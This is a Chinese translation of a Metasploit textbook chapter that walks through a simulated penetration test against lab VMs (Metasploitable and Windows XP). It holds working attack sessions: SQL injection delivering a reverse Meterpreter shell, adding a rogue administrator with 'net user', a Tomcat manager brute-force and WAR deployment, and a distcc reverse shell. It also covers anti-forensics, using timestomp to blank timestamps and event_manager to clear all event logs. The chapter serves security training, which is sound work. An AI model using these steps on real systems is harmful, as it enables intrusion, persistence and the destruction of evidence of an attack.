


## 第十七章 模拟渗透测试

渗透测试对我们大多数人来说都是顶峰，在渗透测试中成功绕过组织的防御是我们最令人满意的经验之一。在本章中，我们将结合你在前几章中学到的内容，模拟一个完整的渗透测试。你将重新创建你在前几章中看到的步骤，所以这里展示的大部分内容应该都很熟悉。

在开始之前，下载并安装 Metasploit 的易受攻击的 Linux 虚拟机，名为*Metasploitable*。（你可以在[`www.thepiratebay.org/torrent/5573179/Metasploitable/`](http://www.thepiratebay.org/torrent/5573179/Metasploitable/)找到它。）Metasploitable 是为了训练个人使用 Metasploit 进行成功的利用而创建的。按照网站上的说明安装 Metasploitable，然后启动它。我们将同时运行 Metasploitable 虚拟机和 Windows XP 系统，以模拟一个小型网络环境，一个虚拟机作为面向互联网的系统，另一个作为内部网络主机。[`www.exploit-db.com/exploits/5720/`](http://www.exploit-db.com/exploits/5720/)。

* * *

### 注意

本章中的模拟渗透测试是一个小型的。如果你的目标是大型企业，你会做更深入的事情。我们保持简单，以便你能够轻松复制。

* * *

## 预参与互动

计划是预参与的第一步。在真正的计划阶段，我们会确定我们的目标以及我们计划攻击的主要方法，这可能包括社会工程学、无线、互联网或内部攻击向量。与实际的渗透测试不同，在这里我们不会针对特定的组织或一组系统；我们将使用我们已知的虚拟机进行模拟。

为了本次模拟的目的，我们的目标将是位于 IP 地址 172.16.32.162 的保护性 Metasploitable 虚拟机（要配置 Metasploitable，请使用用户名和密码*msfadmin*）。Metasploitable 目标是一个连接到内部网络的机器，由防火墙保护，并且*没有*直接连接到互联网。我们的 Windows XP 机器位于防火墙后面（开启 Windows 防火墙），只在 IP 地址 172.16.32.131 上开放端口 80。

## 情报收集

下一步，情报收集，是整个过程中最重要的阶段之一，因为如果你在这里遗漏了什么，你可能会错过整个攻击途径。我们现在的目标是了解我们将要攻击什么，以及我们如何可能获得对系统的访问权限。

我们开始对 Windows XP 虚拟机进行基本的*nmap*扫描（如下所示），我们发现 80 端口是开放的。我们使用*nmap*的隐蔽 TCP 扫描，这通常在检测端口时不会触发防御。大多数 IPS 可以检测端口扫描，但由于端口扫描非常普遍，它们通常被视为常规噪音，并且只要它们不是非常激进，就会被忽略。

```
root@bt:/# `nmap -sT -P0 172.16.32.131`

Starting Nmap 5.21 ( http://nmap.org ) at 2011-05-22 23:29 EDT
Nmap scan report for 172.16.32.131
Host is up (0.00071s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE
`80/tcp open  http`

Nmap done: 1 IP address (1 host up) scanned in 17.46 seconds
```

我们发现似乎有一个 Web 服务器运行在这个服务器上。在攻击面向互联网的系统时，这是很典型的，大多数系统都会限制互联网用户可访问的端口。在这个例子中，我们发现 80 端口，即标准的 HTTP 端口正在监听。如果我们浏览到它，我们会看到类似于图 17-1 的内容。

图 17-1. 识别了一个 Web 应用程序。

## 威胁建模

确定端口 80 已开放后，我们可以枚举任何可用的其他系统，但我们只对单个目标感兴趣。让我们继续进行威胁建模，并尝试确定进入该系统的最佳途径。

我们找到的网页给了我们在用户名和密码字段中输入输入的机会。在这个时候，作为渗透测试员，你应该跳出思维定式，尝试确定最佳途径。当你执行应用程序安全渗透测试时，考虑使用除 Metasploit 之外的工具，例如在适当的时候使用 Burp Suite ([`www.portswigger.net/`](http://www.portswigger.net/))；不要觉得被锁定在单一的工具集中。在下面的例子中，我们将通过在用户名字段中输入‘TEST’（注意前面的单引号）和在密码字段中输入一个单引号来尝试手动攻击。在提交表单之前，我们的用户名和密码字段应该看起来像图 17-2 中的那样。

图 17-2. 尝试利用 SQL 注入

请花一点时间考虑当服务器接收到这个输入时后端发生了什么。在这里，我们只是尝试启动一个新的 SQL 语句，并向其中附加了一些虚假数据。你可能不会在野外发现很多像这样容易攻击的 Web 应用程序，但这是一个很好的例子——而且这些类型的错误实际上并不是很久以前才被发现。当我们点击提交按钮时，我们会得到图 17-3 中显示的错误信息。

这个错误信息表明存在 SQL 注入漏洞，这是基于 SQL 异常和“语法错误在”消息显示*‘TEST*输入引起的。通过快速谷歌搜索，我们可以确定后端数据库是 Microsoft SQL，纯粹基于显示的错误信息。

我们在这里不会详细介绍如何在 Web 应用程序上执行 SQL 注入，但你可以轻松地操纵输入参数来攻击给定的系统并完全利用它。（这已在 第十一章 中简要介绍。）请注意，我们实际上还没有攻击任何系统；我们只是试图识别系统中的一个可行攻击向量。现在我们知道我们可以潜在地利用这个系统，是时候进入利用阶段了。

图 17-3. 错误信息：存在 SQL 注入。

## 利用

当我们在 Web 应用程序中寻找漏洞时，我们发现了一个可行的攻击向量，即 SQL 注入。在这种情况下，Fast-Track 是我们攻击 MS SQL 服务器并通过 Meterpreter 访问目标的最佳选择，因为，正如你从 第十一章 中回忆的那样，它轻松攻击基于 Microsoft SQL 的注入漏洞。

在我们获得 Meterpreter 控制台后，我们将探讨如何访问内部网络上的 Metasploitable 系统。

## 自定义 MSFconsole

我们将使用 SQLPwnage 通过 SQL 注入在目标上部署 Meterpreter 控制台，以获取对其后端数据库的管理访问权限。回想一下 第十一章，SQLPwnage 是一种攻击基于 MS SQL 的注入漏洞的自动化方法，它通过 `xp_cmdshell` 存储过程使用多种攻击方法尝试完全利用 SQL 服务器。

在发起攻击之前，我们需要通过 *msfconsole* 设置一些选项。为了练习，让我们手动创建自己的 Metasploit 监听器。Fast-Track 可以为你设置它，但我们将向 Metasploit 中添加 `load auto_add_route`  函数，以便我们可以自动连接到内部网络上的系统。我们将创建一个监听器并启动 Fast-Track 来攻击系统。

```
root@bt:/opt/framework3/msf3# `msfconsole`
  msf > `use multi/handler`
  msf exploit(handler) > `set payload windows/meterpreter/reverse_tcp`
  payload => windows/meterpreter/reverse_tcp
  msf exploit(handler) > `set LHOST 172.16.32.129`
  LHOST => 172.16.32.129
  smsf exploit(handler) > `set LPORT 443`
  LPORT => 443
 exploit(handler) > `load auto_add_route`
  [*] Successfully loaded plugin: auto_add_route
  msf exploit(handler) > `exploit -j`
  [*] Exploit running as background job.
  [*] Started reverse handler on 172.16.32.129:443
  [*] Starting the payload handler...
  msf exploit(handler) >
```

在我们的监听器等待即将被利用的目标的连接时，我们启动 Fast-Track。（当 *xterm* 窗口打开时，请关闭它，因为我们已经设置了监听器。）

```
[+] Importing 64kb debug bypass payload into Fast-Track... [+]
[+] Import complete, formatting the payload for delivery.. [+]
[+] Payload Formatting prepped and ready for launch. [+]
[+] Executing SQL commands to elevate account permissions. [+]
[+] Initiating stored procedure: 'xp_cmdhshell' if disabled. [+]
[+] Delivery Complete. [+]
Launching MSFCLI Meterpreter Handler
Creating Metasploit Reverse Meterpreter Payload..
Created by msfpayload (http://www.metasploit.com).
Payload: windows/meterpreter/reverse_tcp
 Length: 290
Options: LHOST=172.16.32.129,LPORT=443
Taking raw binary and converting to hex.
Raw binary converted to straight hex.
[+] Bypassing Windows Debug 64KB Restrictions. Evil. [+]
[+] Sending chunked payload. Number 1 of 9\. This may take a bit. [+]
[+] Sending chunked payload. Number 2 of 9\. This may take a bit. [+]

`. . . SNIP . . .`

[+] Conversion from hex to binary in progress. [+]
[+] Conversion complete. Moving the binary to an executable. [+]
[+] Splitting the hex into 100 character chunks [+]
[+] Split complete. [+]
[+] Prepping the payload for delivery. [+]
Sending chunk 1 of 8, this may take a bit...
Sending chunk 2 of 8, this may take a bit...

`. . . SNIP . . .`

Using H2B Bypass to convert our Payload to Binary..
Running cleanup before launching the payload....
[+] Launching the PAYLOAD!! This may take up to two or three minutes. [+]
```

这应该看起来很熟悉。我们本质上是通过 Fast-Track 攻击了 Web 应用程序，并通过 SQL 注入攻击来利用它。我们使用了 `xp_cmdshell` 存储过程和二进制到十六进制的转换技术来展示一个完整的 Meterpreter shell。

## 后渗透

到目前为止，我们应该在 *msfconsole* 背景中运行一个 Meterpreter 控制台，这样我们就可以开始扫描目标子网中的其他活动系统。为此，我们将 *nmap* 上传到目标并从 Windows 机器上运行它。

首先，从 [insecure.org](http://insecure.org) 下载 *nmap* 的可执行格式并保存到本地。我们将将其上传到我们的目标。接下来，我们将通过微软的远程桌面协议 (RDP) 连接到目标，这是一个内置的图形远程管理协议，允许你像坐在远程机器前一样与 Windows 桌面交互。在我们通过 Meterpreter 会话连接后，我们将使用 *getgui* Meterpreter 脚本将 RDP 通过端口 8080 隧道回传给我们，并为系统添加一个新的管理员用户。

我们从 Back|Track 的命令行输入 **rdesktop localhost:8080**，以便使用新创建的用户账户登录系统。然后我们使用 Meterpreter 将 *nmap* 上传到目标。我们的目标是安装 *nmap* 到被攻陷的 Windows 目标上，并使用该系统作为进一步攻击的跳板。相反，你也可以使用 *scanner/portscan/syn* 和 *scanner/portscan/tcp* 通过 Metasploit 直接进行端口扫描。选择取决于个人偏好和需求。

```
meterpreter > `run getgui -e -f 8080`
[*] Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
[*] Carlos Perez carlos_perez@darkoperator.com
[*] Enabling Remote Desktop
[*] RDP is already enabled
[*] Setting Terminal Services service startup mode
[*] Terminal Services service is already set to auto
[*] Opening port in local firewall if necessary
[*] Starting the port forwarding at local port 8080
[*] Local TCP relay created: 0.0.0.0:8080 <-> 127.0.0.1:3389
meterpreter > `shell`
Process 2480 created.
Channel 6 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>`net user msf metasploit /add`
net user msf metasploit /ADD
The command completed successfully.
C:\WINDOWS\system32>`net localgroup administrators msf /add`
net localgroup administrators msf /add
The command completed successfully.
C:\WINDOWS\system32>
C:\WINDOWS\system32>`^Z`
Background channel 6? [y/N]  y
meterpreter > `upload nmap.exe`
[*] uploading  : nmap.exe -> nmap.exe
[*] uploaded   : nmap.exe -> nmap.exe
meterpreter >
```

现在我们有了额外的攻击的跳板。在目标上安装了 *nmap* 后，我们实际上就坐在了内部网络上。我们现在可以尝试枚举内部连接的系统并进一步渗透网络。

### 扫描 Metasploitable 系统

通过我们的 Meterpreter 会话，通过 `load auto_add_route` 命令获得了对内部网络的访问权限，我们可以使用被攻陷的 Windows XP 目标作为启动点来扫描和利用内部主机。我们实际上已经连接到了内部网络，因此我们应该能够到达我们的 Metasploitable 系统。让我们从基本的端口扫描开始。

```
`nmap.exe -sT -A -P0 172.16.32.162`

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.1
|_ftp-bounce: no banner
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/
5.2.4-2ubuntu5.10 with Suhosin-Patch)
|_html-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
|_html-title: Apache Tomcat/5.5
|_http-favicon: Apache Tomcat
MAC Address: 00:0C:29:39:12:B2 (VMware)
No exact OS matches for host (If you know what OS is running on it,
 see http://nmap.org/submit/ ).
Network Distance: 1 hop
Service Info: Host:  metasploitable.localdomain; OSs: Unix, Linux

Host script results:
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user:
 <unknown>, NetBIOS MAC: <unknown>
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Name: WORKGROUP\Unknown
|_  System time: 2010-05-21 22:28:01 UTC-4

OS and Service detection performed. Please report any incorrect
 results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.19 seconds
```

在这里我们看到一系列开放的端口。根据 *nmap* 的操作系统检测，我们看到扫描的系统是某种 UNIX/Linux 变体。其中一些端口可能会引起你的注意，例如 FTP、Telnet、HTTP、SSH、Samba、MySQL、PostgreSQL 和 Apache。

### 识别易受攻击的服务

由于一些端口看起来很有趣，我们将开始抓取每个端口的标志信息，以尝试找到进入系统的方法。

```
msf > `use auxiliary/scanner/ftp/ftp_version`
msf auxiliary(ftp_version) > `set RHOSTS 172.16.32.162`
RHOSTS => 172.16.32.162
msf auxiliary(ftp_version) > `run`

[*] 172.16.32.162:21 FTP Banner: '220
 `ProFTPD 1.3.1` Server (Debian) [::ffff:172.16.32.162]\x0d\x0a'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ftp_version) >
```

退出系统后，我们知道 ProFTPD 1.3.1 正在端口 21 上运行。接下来我们使用 SSH 来获取更多关于目标的信息。（添加 `-v` 标志会提供详细输出。）下一个列表告诉我们我们的目标正在运行一个较旧的 OpenSSH 版本，专门为 Ubuntu 编写：

```
msf > `ssh 172.16.32.162 -v`
[*] exec: ssh 172.16.32.162 -v

`OpenSSH_5.1p1 Debian-3ubuntu1, OpenSSL 0.9.8g 19 Oct 2007`
```

现在我们发出以下命令以确定该系统上运行的 Ubuntu 版本：

```
msf auxiliary(telnet_version) > `set RHOSTS 172.16.32.162`
RHOSTS => 172.16.32.162
msf auxiliary(telnet_version) > `run`

[*] 172.16.32.162:23 TELNET `Ubuntu 8.04`\x0ametasploitable login:
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(telnet_version) >
```

太好了！我们知道该系统正在运行 Ubuntu 8.04，并且有两个未加密的协议（telnet 和 FTP）正在使用，这些可能在以后发挥作用。

现在让我们看看 SMTP，看看我们的目标正在运行哪个版本。记住，我们正在尝试识别在各个远程系统上运行的服务版本。

```
msf > `use auxiliary/scanner/smtp/smtp_version`
msf auxiliary(smtp_version) > `set RHOSTS 172.16.32.162`
RHOSTS => 172.16.32.162
msf auxiliary(smtp_version) > `run`

[*] 172.16.32.162:25 SMTP 220 metasploitable.localdomain ESMTP
 `Postfix` (Ubuntu)\x0d\x0a
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smtp_version) >
```

如你所见，Postfix 邮件服务器似乎正在 Metasploitable 服务器上运行。

这个过程会继续到所有已发现的目标端口。各种辅助模块对此工作非常有用。当你完成时，你应该有一个系统上运行的软件版本的列表，这些信息将在攻击目标时使用。

## 攻击 Apache Tomcat

现在我们再次进入攻击阶段，开始动手操作。

在我们的研究过程中，我们注意到这个系统存在大量的漏洞，包括直接利用和暴力破解的可能性。现在，如果我们进行公开的渗透测试，我们可以对系统运行漏洞扫描器以找到大多数开放端口，但这会失去很多乐趣！让我们来攻击 Apache 吧。

我们注意到 Apache Tomcat 安装在 8180 端口，如我们之前的端口扫描所示。经过一番互联网研究，我们了解到 Tomcat 容易受到管理接口暴力破解攻击。（在大多数情况下，我们可以使用*exploit-db*或 Google 来识别特定服务中的潜在漏洞。）在进一步研究目标上运行的 Apache Tomcat 安装的操作系统版本后，Tomcat 管理器似乎是最容易攻破系统的途径。如果我们能通过 Tomcat 的管理功能，我们可以使用 HTTP `PUT`方法在易受攻击的系统上部署我们的有效载荷。我们按照以下方式发起攻击（省略了漏洞利用和有效载荷列表）：

```
msf > `search apache`
[*] Searching loaded modules for pattern 'apache'...

`. . . SNIP . . .`

msf auxiliary(tomcat_mgr_login) >  `set RHOSTS 172.16.32.162`
RHOSTS => 172.16.32.162
smsf auxiliary(tomcat_mgr_login) > `set THREADS 50`
THREADS => 50
msf auxiliary(tomcat_mgr_login) >  `set RPORT 8180`
RPORT => 8180
msf auxiliary(tomcat_mgr_login) >  `set VERBOSE false`
VERBOSE => false
emsf auxiliary(tomcat_mgr_login) > `run`

[+] http://172.16.32.162:8180/manager/html [Apache-Coyote/1.1]
 [Tomcat Application Manager]
successful login 'tomcat' : 'tomcat'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(tomcat_mgr_login) >
```

我们的暴力破解攻击成功，并以用户名*tomcat*和密码*tomcat*登录。但我们还没有 shell。

利用我们新发现的凭证，我们利用 Apache 的 HTTP `PUT`功能以及*multi/http/tomcat_mgr_deploy*漏洞来将我们的有效载荷放置在系统上，这些有效载荷是通过暴力破解登录我们发现的用户名和密码。

```
auxiliary(tomcat_mgr_login) > `use multi/http/tomcat_mgr_deploy`
msf exploit(tomcat_mgr_deploy) > `set password tomcat`
password => tomcat
msf exploit(tomcat_mgr_deploy) > `set username tomcat`
username => tomcat
msf exploit(tomcat_mgr_deploy) > `set RHOST 172.16.32.162`
RHOST => 172.16.32.162
msf exploit(tomcat_mgr_deploy) > `set LPORT 9999`
LPORT => 9999
Msf exploit(tomcat_mgr_deploy) > `set RPORT 8180`
RPORT => 8180
msf exploit(tomcat_mgr_deploy) > `set payload linux/x86/shell_bind_tcp`
payload => linux/x86/shell_bind_tcp
msf exploit(tomcat_mgr_deploy) > `exploit`
[*] Using manually select target "Linux X86"
[*] Uploading 1669 bytes as FW36owipzcnHeUyIUaX.war ...
[*] Started bind handler
[*] Executing /FW36owipzcnHeUyIUaX/UGMIdfFjVENQOp4VveswTlma.jsp...
[*] Undeploying FW36owipzcnHeUyIUaX ...
[*] Command shell session 1 opened (172.16.32.129:43474 ->
 172.16.32.162:9999) at 2010-05-21 23:57:47 −0400msf
`ls`
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
`whoami`
tomcat55
`ls /root`
reset_logs.sh
`mkdir /root/moo.txt`
mkdir: cannot create directory '/root/moo.txt': Permission denied
```

注意，我们无法写入根目录，因为我们是从受限用户账户运行的，而这个文件夹需要 root 级别的权限。通常，Apache 是在 Apache 用户账户下运行的，有时是*apache*，但也可以是*httpd*、*www-data*等名称。根据我们对目标操作系统版本的了解，我们可以使用本地提权技术以 root 身份获得进一步访问。因为我们已经有一些基本的访问权限，让我们尝试几种不同的攻击方法。

* * *

### 备注

这里有一个小提示，如何在不需要提权的情况下获得 Metasploitable 的 root 访问权限：查看[`www.exploit-db.com/exploits/5720/`](http://www.exploit-db.com/exploits/5720/)中的 SSH 可预测 PRNG 漏洞利用。

* * *

## 攻击未知服务

当我们只进行了默认的*nmap*端口扫描时，我们没有包括所有可能的端口。因为我们现在已经获得了对系统的初始访问权限，我们输入**`netstat -antp`**，并注意到在攻击时*nmap*没有扫描的其他端口。（记住，在渗透测试中，我们并不总是可以依赖默认设置来成功。）

我们的扫描发现端口 3632 是开放的，与*DistCC*相关联。在线搜索告诉我们，*DistCC*是一个将 C/C++代码的构建版本分发到网络中多个机器上的程序，并且它容易受到攻击。（在进行渗透测试时，你经常会遇到不熟悉的应用程序和产品，在攻击之前你需要研究该应用程序。）

```
msf exploit(distcc_exec) > `set payload linux/x86/shell_reverse_tcp`
payload => linux/x86/shell_reverse_tcp
msf exploit(distcc_exec) > `set LHOST 172.16.32.129`
LHOST => 172.16.32.129
shomsf exploit(distcc_exec) > `set RHOST 172.16.32.162`
RHOST => 172.16.32.162
msf exploit(distcc_exec) > `show payloads`

Compatible Payloads
===================

   Name                   Rank    Description
   ----                   ----    -----------
   cmd/unix/bind_perl     normal  Unix Command Shell, Bind TCP (via perl)
   cmd/unix/bind_ruby     normal  Unix Command Shell, Bind TCP (via Ruby)
   cmd/unix/generic       normal  Unix Command, Generic command execution
   cmd/unix/reverse       normal  Unix Command Shell, Double reverse TCP (telnet)
   cmd/unix/reverse_perl  normal  Unix Command Shell, Reverse TCP (via perl)
   cmd/unix/reverse_ruby  normal  Unix Command Shell, Reverse TCP (via Ruby)

msf exploit(distcc_exec) > `set payload cmd/unix/reverse`
payload => cmd/unix/reverse
msf exploit(distcc_exec) > `exploit`

[*] Started reverse double handler
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo q6Td9oaTrOkXsBXS;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "q6Td9oaTrOkXsBXS\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (172.16.32.129:4444 ->
 172.16.32.162:47002) at 2010-05-    22 00:08:04 −0400

`whoami`
daemon
`mkdir /root/moo`
mkdir: cannot create directory '/root/moo': Permission denied
```

注意，我们仍然没有获得 root 权限。本地权限利用将进一步破坏系统并提供完整的 root 访问权限。我们不会在这里告诉你答案；使用你在本书中学到的知识，在 Metasploitable 系统上成功获得 root 权限。一个提示是，你可以在 Exploits Database（[`www.exploit-db.com/`](http://www.exploit-db.com/)）找到利用代码。尝试在系统上自己获得 root Linux/Meterpreter shell。

## 掩盖你的行踪

完成我们的攻击后，我们的下一步是返回到每个被利用的系统，擦除我们的行踪并清理我们留下的任何混乱。应该移除 Meterpreter shell 或其他恶意软件的残留部分，以避免进一步暴露系统。例如，当我们使用`PUT`命令破坏 Apache Tomcat 实例时，攻击者可以使用留下的利用代码来破坏系统。

有时候，你需要掩盖你的行踪——例如，在测试被破坏的系统或事件响应程序的法医分析时。在这种情况下，你的目标是阻止任何法医分析或入侵检测系统。隐藏所有行踪通常很困难，但你应该能够操纵系统，使检查员困惑，并使其几乎不可能确定攻击的范围。

在大多数情况下，当进行法医分析时，如果你能破坏系统，使其大部分内容几乎无法阅读和得出结论，他最有可能将系统识别为已感染或被破坏，并且可能无法理解你从系统中提取了多少信息。阻止法医分析的最佳方法是完全擦除系统并重新构建，移除所有痕迹，但在渗透测试期间这种情况很少发生。

在许多章节中讨论的一个好处是 Meterpreter 可以完全驻留在内存中。通常，你会发现检测和反应内存中的 Meterpreter 具有挑战性。尽管研究经常提出检测 Meterpreter 有效载荷的方法，但 Metasploit 团队通常会以新的方法来隐藏 Meterpreter。

这与防病毒软件供应商在 Meterpreter 新版本中玩的老鼠捉猫的游戏是一样的。当一个新的编码器或用于混淆有效载荷的方法发布时，供应商可能需要几个月的时间来检测问题并更新他们的产品签名来捕获它们。在大多数情况下，对于大多数取证分析师来说，从 Metasploit 识别一个纯内存驻留的攻击向量相对困难。

我们不会提供关于掩盖行踪的深入信息，但有几个 Metasploit 功能值得提及：*timestomp* 和 *event_manager*。*Timestomp* 是一个 Meterpreter 插件，允许您修改、擦除或设置文件上的某些属性。让我们先运行 *timestomp*：

```
meterpreter > `timestomp`

Usage: timestomp file_path OPTIONS

OPTIONS:

    -a <opt>  Set the "last accessed" time of the file
    -b        Set the MACE timestamps so that EnCase shows blanks
    -c <opt>  Set the "creation" time of the file
    -e <opt>  Set the "mft entry modified" time of the file
    -f <opt>  Set the MACE of attributes equal to the supplied file
    -h        Help banner
    -m <opt>  Set the "last written" time of the file
    -r        Set the MACE timestamps recursively on a directory
    -v        Display the UTC MACE values of the file
    -z <opt>  Set all four attributes (MACE) of the file

meterpreter > `timestomp C:\\boot.ini -b`
[*] Blanking file MACE attributes on C:\boot.ini
meterpreter >
```

在这个例子中，我们更改了时间戳，以便当使用 Encase（一个流行的取证分析工具）时，时间戳为空白。

工具 *event_manager* 将修改事件日志，以便它们不会显示任何可能揭示攻击发生的信息。以下是其实际操作：

```
meterpreter > `run event_manager`
Meterpreter Script for Windows Event Log Query and Clear.

OPTIONS:

    -c <opt>  Clear a given Event Log (or ALL if no argument specified)
    -f <opt>  Event ID to filter events on
    -h        Help menu
    -i        Show information about Event Logs on the System and their configuration
    -l <opt>  List a given Event Log.
    -p        Supress printing filtered logs to screen
    -s <opt>  Save logs to local CSV file,
 optionally specify alternate folder in which to               save logs

meterpreter > `run event_manager -c`
[-] You must specify an eventlog to query!
[*] Application:
[*] Clearing Application
[*] Event Log Application Cleared!
[*] MailCarrier 2.0:
[*] Clearing MailCarrier 2.0
[*] Event Log MailCarrier 2.0 Cleared!
[*] Security:
[*] Clearing Security
[*] Event Log Security Cleared!
[*] System:
[*] Clearing System
[*] Event Log System Cleared!
meterpreter >
```

在这个例子中，我们清除了所有的事件日志，但检查员可能会注意到系统上的其他有趣的事情，这可能会使他意识到攻击。但总的来说，检查员将无法拼凑出谜题来识别攻击期间发生的事情，但他会知道确实发生了不好的事情。

记得记录你对目标系统的更改，以便更容易掩盖行踪。通常，你会在系统上留下少量信息，所以不妨让它对事件响应和取证分析团队来说极其难以找到。

## 总结

到目前为止，我们可以继续使用 Metasploit 和 Meterpreter 攻击内部网络上的其他机器，我们的攻击仅受我们的创造力和能力限制。如果这是一个更大的网络，我们可以利用从网络上的各种系统中收集到的信息进一步渗透网络。

例如，在本章的早期，我们攻陷了一个基于 Windows 的系统。我们可以使用 Meterpreter 控制台从该系统提取哈希值，然后使用这些凭据对其他基于 Windows 的系统进行身份验证。本地管理员账户几乎总是从一个系统到另一个系统相同，因此即使在企业环境中，我们也可以使用一个系统的信息来在攻击之间建立桥梁。

渗透测试需要你跳出思维定式，并组合拼图的不同部分。我们在本章中使用了一种方法，但可能还有几种不同的方法可以进入系统，以及你可以利用的不同攻击途径。这一切都来自于经验，以及花时间变得有创造性。坚持不懈是渗透测试的关键。

记住要建立一个你感到舒适的根本方法论，但在必要时进行改变。通常，渗透测试员会至少在每个测试中改变一次他们的方法论以保持新鲜感。改变可能包括一种新的攻击系统的方式或使用新的方法。无论你选择哪种方法，记住，只要有一点经验和努力工作，你在这个领域就能完成任何事情。
